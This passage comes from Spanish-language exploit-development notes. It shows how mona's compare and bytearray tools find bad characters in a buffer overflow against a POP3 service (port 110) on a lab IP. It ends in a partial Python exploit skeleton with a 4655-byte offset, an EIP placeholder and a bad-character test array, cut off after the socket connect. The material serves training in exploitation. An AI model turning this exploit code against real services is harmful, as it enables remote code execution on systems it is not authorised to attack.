 ![[Pasted image 20240308210408.png]]


Si no quieres buscar de uno por uno los badchas puedes utlizar mona y su utlidad de compare para esto necesitaremos la direccion del registro ESP y el archivo bytearray.bin que se encuentra en nuestra carpeta de trabajo y se utilizaria de la siguiente manera

![[Pasted image 20240308212020.png]]

Al ejecutarlo podemos ver que nos arroja cuales son los badchars


![[Pasted image 20240308212136.png]]

Ahora lo que puedes hacer es volver a ejecutar mona con la utilidad de bytearray y el parametro cpb para hacer un nuevo bytearray pero que no incluya los badchars 


![[Pasted image 20240308214435.png]]

El archivo del bytearray se actualiza automaticamente quitando asi lo badchars especificados

![[Pasted image 20240308214620.png]]

Ahora lo que tenemos que hacer es modifcar el exploit y quitar eliminar los badchars que hemos identificados quedaria de la siguiente manera 

```python
#!/usr/bin/python3.11
import sys
import socket

ip = "192.168.0.2"
port = 110


offset=4655

before_eip=b"A"*offset

eip=b"B"*4

after_eip=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

payload=before_eip+eip+after_eip

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))
```